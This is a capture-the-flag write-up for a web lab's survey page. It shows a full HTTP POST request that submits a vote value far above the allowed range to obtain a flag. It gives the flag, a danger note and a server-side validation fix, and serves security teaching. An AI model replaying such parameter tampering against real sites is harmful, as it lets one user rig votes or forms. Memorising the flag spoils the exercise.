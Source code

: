 # Survey manipulation

## Description
on the page survey:http://address/index.php?page=survey
we see a survey with 5 names for whom we can vote with values between 1 to 10. Each name has an average vote value visible. We can see that one of the name has an average of 4000+, which is impossible with an average of values between 1 to 10.\
If we inspect the html form, we can see that each possible visible values is associated to the same hidden value for the POST request. If we edit the value to be bigger than 10, either in the html before selecting that answer, or in a http request, we get the flag:
`03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa`
## Step to reproduce
Sending the http request:
```
POST /index.php?page=survey HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://192.168.56.101
Connection: keep-alive
Referer: http://192.168.56.101/index.php?page=survey
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
Priority: u=0, i
sujet=2&valeur=2000000
```
make the flag appear on the new http page.

## Danger
A single user can modify the result of a community vote, which could have important consequences depending on the subject of the vote.

## Recommended fix
Check the possible values serveur side to only allow values between the set range. It's impossible to stop user from editing their HTTP requests, so the security measures need to be implemented serveur side to not accept invalid ones. (It might also be useful to detect massive automated bot requests, but that apply everywhere, not only on the survey page)
